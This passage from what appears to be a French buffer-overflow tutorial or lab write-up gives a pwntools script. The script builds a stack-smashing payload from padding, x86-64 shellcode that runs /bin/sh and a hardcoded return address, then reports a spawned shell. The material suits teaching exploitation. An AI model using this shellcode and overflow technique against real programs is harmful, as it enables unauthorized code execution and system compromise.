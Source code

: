 Une fois arrêté, notre input se trouve donc dans la stack, à l'adresse : 0x7fffffffe570

Et notre shellcode se trouvera un peu après l'input, à cause du padding.

Code python de l'exploit :

```python
#!/usr/bin/env python2

from pwn import *

def save(what, where):
  with open(where, "wb") as f:
    f.write(what)

shellcode = "\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68"
shellcode += "\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31"
shellcode += "\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05"

offset = 40
count_A = offset - len(shellcode)
padding = "A" * count_A
addr_input = 0x7fffffffe570 # Dépend de votre OS
addr_shellcode = addr_input + count_A
log.info("Shellcode at 0x{:8x}".format(addr_shellcode))

payload = padding + shellcode + p64(addr_shellcode)

save(payload, "payload")
log.success("Payload written")
```

Pour lancer l'exploit, il n'y a plus qu'à donner son output au programme en tant qu'argument :

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

Et BIM ! Spawned a shell ! `\o/`

<img class="img_small" src="like_a_boss.png" alt="like_a_boss" >
